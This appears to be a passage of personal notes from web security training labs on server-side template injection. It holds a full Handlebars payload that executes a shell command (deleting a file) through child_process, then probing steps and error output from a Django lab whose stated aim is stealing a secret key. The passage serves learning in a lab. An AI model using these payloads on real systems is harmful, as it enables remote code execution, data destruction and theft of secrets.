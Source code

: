         {{/with}}
    {{/with}}
    {{/with}}

    GET {{%23with+"s"+as+|string|}}++{{%23with+"e"}}++++{{%23with+split+as+|conslist|}}++++++{{this.pop}}++++++{{this.push+(lookup+string.sub+"constructor")}}++++++{{this.pop}}++++++{{%23with+string.split+as+|codelist|}}++++++++{{this.pop}}++++++++{{this.push+"return+require('child_process').execSync('rm+/home/carlos/morale.txt')%3b"}}++++++++{{this.pop}}++++++++{{%23each+conslist}}++++++++++{{%23with+(string.sub.apply+0+codelist)}}++++++++++++{{this}}++++++++++{{/with}}++++++++{{/each}}++++++{{/with}}++++{{/with}}++{{/with}}{{/with}} HTTP/1.1

# success!




# 4. Lab: Server-side template injection with information disclosure via user-supplied objects

hint:
    ${T(java.lang.System).getenv()}

 To solve the lab, steal and submit the framework's secret key. 

 TRY: {{7*7}}
 GET:  django.template error

 https://docs.djangoproject.com/en/4.0/topics/templates/

 
 from:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---read-remote-file


try: {%import.os%}
get: TemplateSyntaxError: Invalid block tag on line 1: 'import.os'. Did you forget to register or load this tag?


search Error:
in parse raise self.error(token, e) AttributeError: 'NoneType' object has no attribute 'lstrip'
https://www.pythonpool.com/attributeerror-nonetype-object-has-no-attribute-group-solved/

try: {%25+debug+%25}
get:
{'


